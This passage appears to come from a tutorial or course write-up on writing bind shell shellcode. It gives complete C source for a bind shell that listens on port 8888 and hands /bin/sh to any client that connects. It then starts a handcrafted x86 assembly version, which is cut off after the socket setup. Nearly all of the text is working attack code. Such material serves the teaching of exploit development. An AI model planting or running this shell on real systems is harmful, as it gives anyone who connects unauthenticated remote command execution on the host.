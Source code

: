 ```
 #include<stdio.h> //printf
 #include<string.h>    //strlen
 #include<sys/socket.h>    //socket
 #include<arpa/inet.h> //inet_addr
 
 int main(int argc , char *argv[]){
 
     int sock;
     int clntSock;
     struct sockaddr_in server;
     struct sockaddr_in client;
 
     server.sin_addr.s_addr = INADDR_ANY;
     server.sin_family = AF_INET;
     server.sin_port = htons( 8888 );
 
     sock = socket(AF_INET , SOCK_STREAM , 0);
     //int bind(int socket, struct sockaddr *localAddress, unsigned int addressLength) 
     bind(sock, (struct sockaddr *)&server, sizeof(server));
 
     //int listen(int socket, int queueLimit)
     listen(sock, 0);
 
     //int accept(int socket, struct sockaddr *clientAddress, unsigned int *addressLength)
     clntSock = accept(sock, NULL, NULL);
 
     dup2(clntSock, 0);
     dup2(clntSock, 1);
     dup2(clntSock, 2);
 
     execve("/bin/sh", 0, 0);
 
     return 0;
 }
```

## Handcrafted shellcode

Once again, my idea here is not to generate a small shellcode, but a comprehensible one. It was pretty simple to modify the reverse shell code to this one, given the only significant changes are those related to the new syscalls.

```
global _start

section .text
_start:

;###socket###
;socket(AF_INET , SOCK_STREAM , 0);

xor eax, eax
mov al, 0x66 ;socketcall
xor ebx, ebx

;push the list of arguments onto the stack
push ebx ;PROT
push 0x01 ;SOCK_STREAM
push 0x02 ;AF_INET

mov bl, 0x01 ;socket function

mov ecx, esp ;pass the pointer to the list of arguments to ecx
```